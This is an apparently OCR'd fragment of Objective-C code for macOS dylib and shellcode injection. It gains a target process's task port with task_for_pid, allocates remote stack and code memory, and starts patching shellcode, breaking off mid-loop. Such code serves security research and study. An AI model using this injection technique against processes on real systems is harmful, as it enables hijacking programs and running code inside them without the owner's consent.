 ```objectivec

int inject(pid_t pid, const char *lib) {

task_t remoteTask;
struct stat buf;

// Check if the library exists
int rc = stat (lib, &buf);

if (rc != 0)
{
fprintf (stderr, "Unable to open library file %s (%s) - Cannot inject\n", lib,strerror (errno));
//return (-9);
}

// Get access to the task port of the process we want to inject into
kern_return_t kr = task_for_pid(mach_task_self(), pid, &remoteTask);
if (kr != KERN_SUCCESS) {
fprintf (stderr, "Unable to call task_for_pid on pid %d: %d. Cannot continue!\n",pid, kr);
return (-1);
}
else{
printf("Gathered privileges over the task port of process: %d\n", pid);
}

// Allocate memory for the stack
mach_vm_address_t remoteStack64 = (vm_address_t) NULL;
mach_vm_address_t remoteCode64 = (vm_address_t) NULL;
kr = mach_vm_allocate(remoteTask, &remoteStack64, STACK_SIZE, VM_FLAGS_ANYWHERE);

if (kr != KERN_SUCCESS)
{
fprintf(stderr,"Unable to allocate memory for remote stack in thread: Error %s\n", mach_error_string(kr));
return (-2);
}
else
{

fprintf (stderr, "Allocated remote stack @0x%llx\n", remoteStack64);
}

// Allocate memory for the code
remoteCode64 = (vm_address_t) NULL;
kr = mach_vm_allocate( remoteTask, &remoteCode64, CODE_SIZE, VM_FLAGS_ANYWHERE );

if (kr != KERN_SUCCESS)
{
fprintf(stderr,"Unable to allocate memory for remote code in thread: Error %s\n", mach_error_string(kr));
return (-2);
}


// Patch shellcode

int i = 0;
char *possiblePatchLocation = (injectedCode );
for (i = 0 ; i < 0x100; i++)
{

// Patching is crude, but works.
//
```